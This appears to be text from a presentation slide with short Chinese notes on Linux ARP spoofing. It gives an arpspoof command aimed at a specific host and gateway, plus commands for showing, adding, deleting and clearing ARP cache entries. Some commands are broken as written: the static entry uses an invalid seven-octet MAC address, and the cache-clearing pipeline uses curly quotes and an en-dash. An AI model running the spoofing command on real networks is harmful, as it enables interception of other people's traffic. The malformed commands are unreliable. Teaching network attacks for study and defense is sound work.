

# linux arp欺骗
arpspoof -t 192.168.65.129 192.168.65.1
arp –n linux 显示arp缓存
arp -s 10.1.1.1 00:11:22:33:44:55:66 添加arp缓存
arp -d 10.1.10.118 删除arp缓存
arp -n|awk ‘/^[1-9]/{print “arp -d  ” $1}’|sh –x  清除所有arp缓存
41